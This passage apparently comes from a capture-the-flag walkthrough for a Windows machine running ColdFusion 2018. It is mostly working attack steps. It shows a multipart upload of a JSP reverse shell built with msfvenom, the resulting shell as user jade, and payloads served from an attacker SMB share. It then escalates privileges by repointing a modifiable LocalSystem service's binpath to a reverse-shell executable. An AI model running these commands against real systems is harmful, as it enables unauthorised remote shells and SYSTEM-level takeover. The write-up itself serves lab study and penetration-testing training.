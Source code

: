 ```
-----------------------------24464570528145
Content-Disposition: form-data; name="file"; filename="corn.jsp"
Content-Type: "text/html;charset=UTF-8"

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.0.64 LPORT=4444 -f raw > shell.jsp **PUT IN THE shell.jsp CONTENTS HERE**
-----------------------------24464570528145
Content-Disposition: form-data; name="path"

shell
-----------------------------24464570528145--
```

Now we can see that we have a shell as jade
```
C:\ColdFusion2018\cfusion\bin>whoami & hostname 

cold\jade
Cold
```

### PRIV ESC

Now we have a shell, we can upload the scripts that we need. To do this i'll use the smbserver method, as I haven't done it before.
```
ATTACKING MACHINE:
sudo python /opt/impacket/examples/smbserver.py corn /opt/scripts/windows/
VICTIM MACHINE:
copy \\10.10.0.64\corn\winPEASany.exe .\winpeas.exe
```
In the output of winpeas we see that there is a vulnerable service that we can modify:
```
[+] Modifiable Services(T1007)
 [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
  LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
  cold: WriteData/CreateFiles
```

Using `sc qc cold` we can see that the service is running as LocalSystem:
```
C:\Windows\Tasks>sc qc cold
sc qc cold
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: cold
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : cold
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
Now that we have this knowledge, we can change the path of the command that will run when the service is started.
```
sc config cold binpath= "C:\windows\tasks\shell.exe"
```
Now we can upload our shell generated with `msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe` and restart the service:
```
copy \\10.10.0.64\corn\shell.exe C:\windows\tasks\shell.exe

```